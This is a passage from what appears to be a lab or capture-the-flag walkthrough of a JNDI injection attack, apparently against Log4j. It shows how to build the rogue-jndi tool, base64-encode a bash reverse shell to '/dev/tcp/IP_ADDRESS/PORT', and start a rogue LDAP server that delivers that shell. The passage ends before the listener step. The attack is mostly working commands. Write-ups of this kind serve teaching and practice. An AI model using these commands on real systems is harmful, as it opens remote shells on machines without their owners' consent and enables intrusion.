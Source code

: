 To build our payload, we will need maven and open-jdk, in my computer it 
is installed by default if it is not the case for you, install it.

Clone and build the project with this command line

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

![image.png](image%208.png)

Then, encode to base64 the command we want to inject. Change the IP_ADDRESS 
by your attack box and PORT by the port you want (it has to be free).

```
echo 'bash -c bash -i >&/dev/tcp/IP_ADDRESS/PORT 0>&1' | base64
```

Copy the output, it will help in the following

![image.png](image%209.png)

After this, we launch an LDAP server on our attack box. Change the IP_ADDRESS
 by yours and the base64 code by the previous output

```
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMjM0LzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "IP_ADDRESS"
```

![image.png](image%2010.png)

We have now to open a listener on a port, we previously choose

